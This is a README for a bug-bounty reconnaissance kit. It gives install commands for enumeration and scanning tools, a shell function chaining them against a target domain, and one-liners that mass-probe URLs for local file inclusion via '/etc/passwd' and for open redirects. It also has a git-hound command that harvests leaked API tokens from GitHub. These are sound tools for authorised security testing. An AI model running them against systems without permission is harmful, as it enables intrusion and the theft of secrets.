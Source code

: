 # Recon-bugbounty

<a href="https://www.buymeacoffee.com/hackerspider1" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" style="height: 51px !important;width: 217px !important;" ></a>
[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://paypal.me/hackerspider1)


Simple recon using multiple tools!

If you have Go installed and configured (i.e. with $GOPATH/bin in your $PATH):

### Install Assetfinder

`
▶ go get -u github.com/tomnomnom/assetfinder
`

### Install anew

`
▶ go get -u github.com/tomnomnom/anew
`

### Install Amass

If you have brew installed if not `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"`

`
▶ brew install amass
`

### Install Subfinder

`
▶ go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
`

### Install httpx

`
▶ go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
`

### Install Aquatone

- Download the [latest release](https://github.com/michenriksen/aquatone/releases/latest) of Aquatone for your operating system.
- Uncompress the zip file and move the aquatone binary to your desired location. You probably want to move it to a location in your $PATH for easier use.

### Install Naabu

`
▶ go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest
`

### Install Subjack

`
▶ go get github.com/haccer/subjack
`

### Install Nuclei

`
▶ go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
`

### Install Jaeles

If you have a Go environment, make sure you have Go >= 1.13 with Go Modules enable and run the following command.

`
▶ GO111MODULE=on go get github.com/jaeles-project/jaeles
`

### Install ffuf

`
▶ go get -u github.com/ffuf/ffuf
`
You can use dirsearch as well.

`
▶ pip3 install dirsearch
`

Download the wordlist `▶ wget "https://raw.githubusercontent.com/hackerspider1/Recon-bugbounty/main/dir.txt"`

# Enum

Add the following in your .zshrc

```
enum(){
        assetfinder -subs-only "$1" | tee -a domains
        cat domains | anew domains.txt
	amass enum -brute -active --passive -d "$1" -o domains -config ~/.config/amass/config.ini
        cat domains | anew domains.txt
        rm domains
        subfinder -silent -d "$1" -o domains
        cat domains | anew domains.txt
        rm domains
        cat domains.txt | httpx -silent | tee -a hosts.txt
        cat domains.txt | aquatone -out screens -scan-timeout 200 -screenshot-timeout 60000 -ports xlarge
        naabu -silent -iL domains.txt > portscan.txt
        subjack -w domains.txt -t 100 -timeout 20 -o subjack_out.txt --ssl -c ~/fingerprints.json
	nuclei -l hosts.txt -t cves/ | tee -a vuln.txt
	jaeles scan -s ~/.jaeles/ -U hosts.txt
	for i in $(cat hosts.txt); do ffuf -u $i/FUZZ -w ~/Documents/bugbounty/wordlist/dir.txt -ac -c -e php,txt,asp,html,aspx; done
}
```

You can add Git-hound as well in it

- Download the [latest release of GitHound](https://github.com/tillson/git-hound/releases)
- Create a ./config.yml or ~/.githound/config.yml with your GitHub username and password. Optionally, include your 2FA TOTP seed. See [config.example.yml](https://github.com/tillson/git-hound/blob/master/config.example.yml).
- If it's your first time using the account on the system, you may receieve an account verification email.

`echo "guptashubham.com" | git-hound`

add following line in the last of #enum (.zshrc)

```
echo "$1" | git-hound
```

# Aemhack

```
git clone https://github.com/0ang3el/aem-hacker.git
cd aem-hacker
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```
Add it to .zshrc

`aemhack (){
python3 ~/aem-directory/aem-hacker/aem_hacker.py -u $1 --host $2
}`

# One-Liner

### LFI

```
lfi () {
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
}
```

### Open-redirect

```
open-redirect () {
local LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
}
```

### Githound

```
githound(){
echo "$1" | git-hound --dig-files --dig-commits --many-results --regex-file key.txt --results-only > api_tokens.txt"
}
```

# Thanks
#### We use tools which are developed by the following people
[OWASP](https://github.com/OWASP/), [ProjectDiscovery](https://github.com/projectdiscovery/), [Tom Hudson](https://github.com/tomnomnom/), [Tillson Galloway](https://github.com/tillson), [0ang3el](https://github.com/0ang3el), [Michael Henriksen](https://github.com/michenriksen), [Jaeles Project](https://github.com/jaeles-project)

Let me know one-liner owner would like to give credit!!
